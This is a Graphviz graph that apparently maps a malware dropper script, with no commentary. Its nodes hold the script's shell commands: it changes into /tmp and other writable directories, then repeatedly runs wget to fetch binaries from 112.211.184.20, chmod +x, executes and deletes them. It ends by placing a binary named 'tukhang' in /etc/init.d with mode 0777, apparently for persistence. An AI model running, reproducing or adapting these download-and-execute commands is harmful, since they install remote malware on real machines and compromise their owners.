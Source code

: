 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://112.211.184.20/aaaaajalungka "];
10 -> 12 [label=";,"];
12 [label="chmod +x aaaaajalungka "];
12 -> 14 [label=";,"];
14 [label="./aaaaajalungka "];
14 -> 16 [label=";,"];
16 [label="rm -rf aaaaajalungka "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://112.211.184.20/aaaaajamango "];
28 -> 30 [label=";,"];
30 [label="chmod +x aaaaajamango "];
30 -> 32 [label=";,"];
32 [label="./aaaaajamango "];
32 -> 34 [label=";,"];
34 [label="rm -rf aaaaajamango "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://112.211.184.20/aaaaajaopenggl "];
46 -> 48 [label=";,"];
48 [label="chmod +x aaaaajaopenggl "];
48 -> 50 [label=";,"];
50 [label="./aaaaajaopenggl "];
50 -> 52 [label=";,"];
52 [label="rm -rf aaaaajaopenggl "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://112.211.184.20/aaaaajavast "];
64 -> 66 [label=";,"];
66 [label="chmod +x aaaaajavast "];
66 -> 68 [label=";,"];
68 [label="./aaaaajavast "];
68 -> 70 [label=";,"];
70 [label="rm -rf aaaaajavast "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://112.211.184.20/aaaaajagreyps "];
82 -> 84 [label=";,"];
84 [label="chmod +x aaaaajagreyps "];
84 -> 86 [label=";,"];
86 [label="./aaaaajagreyps "];
86 -> 88 [label=";,"];
88 [label="rm -rf aaaaajagreyps "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://112.211.184.20/aaaaajakuhamo "];
100 -> 102 [label=";,"];
102 [label="chmod +x aaaaajakuhamo "];
102 -> 104 [label=";,"];
104 [label="./aaaaajakuhamo "];
104 -> 106 [label=";,"];
106 [label="rm -rf aaaaajakuhamo "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://112.211.184.20/aaaaajamarco "];
118 -> 120 [label=";,"];
120 [label="chmod +x aaaaajamarco "];
120 -> 122 [label=";,"];
122 [label="./aaaaajamarco "];
122 -> 124 [label=";,"];
124 [label="rm -rf aaaaajamarco "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://112.211.184.20/aaaaajachikos "];
136 -> 138 [label=";,"];
138 [label="chmod +x aaaaajachikos "];
138 -> 140 [label=";,"];
140 [label="./aaaaajachikos "];
140 -> 142 [label=";,"];
142 [label="rm -rf aaaaajachikos "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://112.211.184.20/aaaaajapchikos "];
154 -> 156 [label=";,"];
156 [label="chmod +x aaaaajapchikos "];
156 -> 158 [label=";,"];
158 [label="./aaaaajapchikos "];
158 -> 160 [label=";,"];
160 [label="rm -rf aaaaajapchikos "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://112.211.184.20/aaaaajacos "];
172 -> 174 [label=";,"];
174 [label="chmod +x aaaaajacos "];
174 -> 176 [label=";,"];
176 [label="./aaaaajacos "];
176 -> 178 [label=";,"];
178 [label="rm -rf aaaaajacos "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://112.211.184.20/  "];
190 -> 192 [label=";,"];
192 [label="chmod +x   "];
192 -> 194 [label=";,"];
194 [label="./  "];
194 -> 196 [label=";,"];
196 [label="rm -rf   "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://112.211.184.20/aaaaajafacebook3 "];
208 -> 210 [label=";,"];
210 [label="chmod +x aaaaajafacebook3 "];
210 -> 212 [label=";,"];
212 [label="./aaaaajafacebook3 "];
212 -> 214 [label=";,"];
214 [label="rm -rf aaaaajafacebook3 "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://112.211.184.20/aaaaajanetdelds "];
226 -> 228 [label=";,"];
228 [label="chmod +x aaaaajanetdelds "];
228 -> 230 [label=";,"];
230 [label="./aaaaajanetdelds "];
230 -> 232 [label=";,"];
232 [label="rm -rf aaaaajanetdelds "];
232 -> 234 [label=";,"];
234 [label="cd /etc/init.d "];
234 -> 234
236 [label="wget http://112.211.184.20/tukhang "];
236 -> 238 [label=";,"];
238 [label="chmod 0777 tukhang "];
238 -> 240 [label=";,"];
240 [label="./tukhang "];
240 -> 241 [label=";,"];
}
